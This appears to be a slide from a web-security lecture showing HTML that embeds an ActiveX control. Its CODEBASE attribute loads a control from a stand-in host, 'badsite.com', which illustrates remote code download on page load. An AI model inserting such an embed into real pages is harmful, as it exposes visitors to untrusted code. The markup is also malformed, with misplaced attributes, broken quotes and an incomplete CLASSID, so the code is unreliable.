

# Embedding an ActiveX Control
<HTML> <HEAD>
<TITLE> Draw a Square </TITLE>
</HEAD>
<BODY> Here is an example ActiveX reference:
<OBJECT>
	ID="Sample“ 	CODEBASE="http://www.badsite.com/controls/stop.ocx" 	HEIGHT="101“
	WIDTH="101“ CLASSID="clsid:0342D101-2EE9-1BAF-34565634EB71" >
	<PARAM NAME="Version" VALUE=45445">
	<PARAM NAME="ExtentX" VALUE="3001">
	<PARAM NAME="ExtentY" VALUE="2445">
	</OBJECT>
</BODY> </HTML>

11